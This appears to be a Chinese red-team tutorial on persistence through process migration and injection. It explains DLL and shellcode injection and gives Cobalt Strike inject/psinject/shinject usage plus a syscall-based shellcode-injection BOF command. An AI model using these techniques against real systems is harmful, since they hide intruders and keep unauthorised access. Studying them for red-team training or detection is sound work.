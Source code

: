 # 内网渗透-权限维持

  
  
&lt;!--more--&gt;  
## 权限维持-进程迁移  
### 什么是进程迁移  
进程迁移（进程注入），是说当一个程序运行时本身没有一个独立的进程，而是通过相关技术把功能注入到某一个正在运行的进程当中，使运行的进程在进程列表当中无法查看到，这样就起到了利用已存在的进程来隐藏自身进程的作用，并且在权限维持的角度而言也起到了一定的作用。  
进程注入是一种广泛使用的躲避检测的技术，通常用于恶意软件或者无文件技术。其需要在另一个进程的地址空间内运行特质代码，进程注入改善了不可见性，同时一些技术也实现了持久性。  
大体上，进程注入可以分为两种形式  
- DLL注入  
- Shellcode注入  
这两种方式没有本质上的区别，在操作系统层面，dll也是shellcode汇编代码。为了开发方便，经常会将代码以dll的形式编译并传播，在实际注入的时候，由注入方或者被注入方调用loadlibrary加载  
### 使用进程迁移的目的  
- 隐藏进程  
- 权限维持  
### 使用进程迁移的场景  
在权限维持的角度来说，使用进程迁移最多的场景时windows server系列，因为服务器不会经常重启，所以，在某类需求的实战场景中也是使用最频繁最方便的一种方式。对于pc机的权限维持需求不太使用，pc机的重启率太高。  
### CobaltStrike中的进程迁移  
名词说明：Post-Exploitation Jobs(进程执行&#43;远程注入)  
`inject`和`shinject`命令可以将代码注入到任意远程进程中，该工具一些内置的Post-Exploitation job也会针对特定的远程进程。  
**cs使用**  
```  
beacon&gt; help inject  
Use: inject [pid] &lt;x86|x64&gt; [监听器]  
  
打开 [pid] 指定的进程并注入运行从 [监听器] 生成的shellcode  
```  
`psinject`  
```  
psinject时cs4.0&#43;版本才出现的，使用的是one-liner payload注入进程  
它向特定进程中注入非托管PowerShell并通过其执行指定的命令  
对于psinject、x64进程可以注入x86/x64的payload、x86进程只能注入x86  
  
beacon&gt; help psinject  
Use: psinject [pid] [x86|x64] [cmdlet] [参数]  
  
注入非托管Powershell到 [pid] 指定的进程中，然后执行 [cmdlect]，不会调用powershell.exe  
最后一次使用powershell-import导入的任何cmdlet也可以在这里使用  
```  
`shinject`  
```  
beacon&gt; help shinject  
Use: shinject [pid] &lt;x86|x64&gt; [/本地绝对路径/my.bin]  
  
打开 [pid] 指定的进程并注入运行本地shellcode文件  
```  
### bof实现的进程注入  
#### StaticSyscallsInject  
(64-bit only)  
Beacon object file to:  
- Inject shellcode(either custom or beacon)into remote process using NtOpenProcess-&gt;NtAllocateVirtualMemory-&gt;NtWriterVirtualMemory-&gt;NtCreateThreadEx  
使用方法  
```  
1、static_syscalls_shinjet 4052 /path/to/my.bin  
2、static_syscalls_inject 4972 http(监听器名称)  
```